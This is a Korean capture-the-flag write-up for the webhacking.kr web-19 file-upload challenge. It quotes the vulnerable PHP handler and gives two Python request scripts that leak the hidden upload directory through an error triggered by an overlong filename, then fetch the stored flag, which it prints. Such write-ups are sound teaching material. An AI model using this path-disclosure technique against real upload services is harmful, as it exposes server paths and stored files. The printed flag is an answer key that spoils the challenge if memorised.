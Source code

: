 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-12-00-33.png)


# **Write-Up**

view-source를 클릭하면 파일 업로드 시 FLAG를 입력 후 저장하지만, $upload_dir를 알 수 가없다.

```php
... 생략 ...
<?php
  if(isset($_FILES['up']) && $_FILES['up']){
    $fn = $_FILES['up']['name'];
    $fn = str_replace(".","",$fn);
    $fn = str_replace("<","",$fn);
    $fn = str_replace(">","",$fn);
    $fn = str_replace("/","",$fn);

    $cp = $_FILES['up']['tmp_name'];
    copy($cp,"./{$upload_dir}/{$fn}");
    $f = @fopen("./{$upload_dir}/{$fn}","w");
    @fwrite($f,$flag);
    @fclose($f);
    echo("Done~");
  }
?>
... 생략 ...
```

아무거나 올려서 반응을 보자.

![](images/2022-01-03-12-00-55.png)

매우 긴 문자열을 넣어보면 $upload_dir의 값을 에러를 통해 알 수 있다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'up':('a'*1000,'')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
print(req.text)

[Output]
... 생략 ...
<b>Warning</b>:  copy(./4b0e87fef7b5e8ba83894970c9806042e5d6ec9a/
... 생략 ...
```

이제 적당한 이름의 파일을 업로드 후 오류를 통해 알아낸 폴더/파일에 접근하면 FLAG를 획득할 수 있다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'up':('Hello_World','')}
req         = requests.post(CHALLENGE, headers=headers, files=files)

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
url         = CHALLENGE + '4b0e87fef7b5e8ba83894970c9806042e5d6ec9a/Hello_World'
req         = requests.get(url, headers=headers)
print(req.text)

[Output]
FLAG{error_msg_is_more_userful_than_you_think}
```

FLAG를 인증 후 점수를 획득하자.

![](images/2022-01-03-12-01-21.png)


# **FLAG**

**FLAG{error_msg_is_more_userful_than_you_think}**